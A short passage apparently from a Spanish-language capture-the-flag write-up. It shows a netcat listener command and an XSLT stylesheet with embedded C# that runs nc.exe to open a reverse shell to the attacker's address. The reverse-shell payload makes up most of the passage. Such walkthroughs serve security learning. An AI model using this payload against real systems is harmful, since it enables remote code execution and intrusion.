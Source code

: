 ![10](images/10.png)

Ponemos a la escucha nuestro netcat y despues mandamos el exploit para ejecutar **nc.exe**.

`rlwrap nc -lvnp 1234`

```
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml(){ string cmd = "/c c:\\Microsoft\\nc.exe -e cmd.exe 10.10.14.248 1234"; System.Diagnostics.Process proc = new System.Diagnostics.Process();proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = cmd;proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }</msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/></xsl:template></xsl:stylesheet>
```
